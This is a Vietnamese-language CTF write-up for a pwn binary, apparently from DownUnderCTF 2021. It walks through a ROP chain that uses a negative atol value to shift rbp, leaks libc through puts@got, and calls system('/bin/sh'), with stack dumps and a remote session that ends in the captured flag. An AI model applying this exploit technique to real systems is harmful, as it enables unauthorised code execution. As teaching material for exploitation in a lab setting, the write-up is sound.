 # Phân tích file

```python
rbp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=1c79065e901bfd5ae362acb59b1903f9ed4be249, for GNU/Linux 4.4.0, not stripped
```

```python
		Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

# Reverse file

- Main
    
    ```python
    int __cdecl main(int argc, const char **argv, const char **envp)
    {
      char buf[32]; // [rsp+0h] [rbp-20h] BYREF
    
      init(argc, argv, envp);
      printf("Hi there! What is your name? ");
      read(0, buf, 0x18uLL);
      puts("That is an interesting name.");
      printf("Do you have a favourite number? ");
      read_long();
      return 0;
    ```
    
    - Hàm chỉ cho ta nhập được 0x18(24 bytes).
- Read_long
    
    ```python
    __int64 read_long()
    {
      char buf[32]; // [rsp+0h] [rbp-20h] BYREF
    
      read(0, buf, 0x13uLL);
      return atol(buf);
    }
    ```
    
    - Hàm atol sẽ chuyển một chuỗi thành 1 số long int, nếu ta nhập vào 1 số âm thì nó vẫn nhận kết hợp với đoạn cuối của main ta có thể control được rbp ⇒ control được ret.
        
        ```python
        0x000000000040123e <main+105>:   add    rbp,rax
        ```
        

# Exploit

- Do ta có thể control được ret nên ta có thể cho ret trở về lần input của ta, nhưng input đầu tiên chỉ cho ta nhập 0x18 bytes không đủ để leak libc và quay về, nhưng ta có thể control rbp nên ta sẽ setup như sau:
- Ở lần nhập đầu tiên ta nhập main+ret+main
    
    ```python
    0x7fffffffe010: 0x00000000004011d5      0x000000000040101a
    0x7fffffffe020: 0x00000000004011d5
    ```
    
- Sau đó control rbp quay về ret và sẽ về lại main, sau đó ở lần nhập tiếp theo ta nhập pop_rdi + got.puts+plt.puts lúc này stack sẽ như sau:
    
    ```python
    0x7fffffffe000 —▸ 0x4012b3 (__libc_csu_init+99) ◂— pop    rdi
    01:0008│          0x7fffffffe008 —▸ 0x404018 (puts@got.plt) —▸ 0x7ffff7e4e5a0 (puts) ◂— endbr64
    02:0010│          0x7fffffffe010 —▸ 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    03:0018│          0x7fffffffe018 —▸ 0x40101a (_init+26) ◂— ret
    04:0020│ rbp      0x7fffffffe020 —▸ 0x4011d5 (main) ◂— push   rbp
    ```
    
- Vậy là ta setup xong để leak libc và quay lại được main, giờ ta nhập atol(-40) để quay về pop_rdi và leak.
    
    ```python
    puts: 0x7ffff7e4e5a0
    base: 0x7ffff7dcdbd0
    ```
    
- Tương tự ta nhập input pop_rdi+bin_sh+system, stack như sau:
    
    ```python
    00:0000│ rsi rsp  0x7fffffffe000 —▸ 0x4012b3 (__libc_csu_init+99) ◂— pop    rdi
    01:0008│          0x7fffffffe008 —▸ 0x7ffff7f7e5aa ◂— 0x68732f6e69622f /* '/bin/sh' */
    02:0010│          0x7fffffffe010 —▸ 0x7ffff7e1c410 (system) ◂— endbr64
    03:0018│          0x7fffffffe018 —▸ 0x40101a (_init+26) ◂— ret
    04:0020│ rbp      0x7fffffffe020 —▸ 0x40123e (main+105) ◂— add    rbp, rax
    ```
    
- Tương tự nhập atol(-40) để quay về pop_rdi và lên shell.

```python
[+] Opening connection to pwn-2021.duc.tf on port 31910: Done
puts: 0x7fdf38de29d0
base: 0x7fdf38d62000
[*] Switching to interactive mode
That is an interesting name.
Do you have a favourite number? $ cat flag.txt
DUCTF{n0_0verfl0w?_n0_pr0bl3m!}
$
```
